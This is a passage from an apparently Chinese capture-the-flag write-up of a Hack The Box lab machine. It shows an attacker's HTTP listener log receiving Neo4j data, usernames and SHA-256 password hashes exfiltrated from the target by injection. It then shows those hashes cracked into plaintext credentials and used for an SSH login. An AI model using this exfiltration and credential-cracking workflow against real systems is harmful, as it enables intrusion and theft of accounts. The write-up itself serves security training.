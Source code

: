 ```log
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [31/May/2023 08:10:16] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:10:16] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
10.10.11.210 - - [31/May/2023 08:10:38] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:29:19] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=employee HTTP/1.1" 200 -
……

10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:29] "GET /?username=john HTTP/1.1" 200 -
……
```

### 获得凭据

密码一开始想着 `john` 暴破不过没成功，`hash-identifier`甚至把密文识别为SHA-256。  
后来直接扔进这里试了下就出来了：<https://www.somd5.com/>

将log稍作整理，并解密后，我们得到了如下信息：

| username | password | 解密 |
| - | - | - |
| admin | 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 | admin |
| john  | a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 | ThisIs4You |

记得还有个本地端口3000，admin弱密码之前试过了，用john进去看看有什么信息。不过很遗憾只有一个Test仓库，还是私人的，没任何有用的信息了。

不过突然想起来SSH，毕竟家目录有他。本地端口这边打太久了都要忘了这回事……

## SSH登陆

```bash
Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```



## flag: user
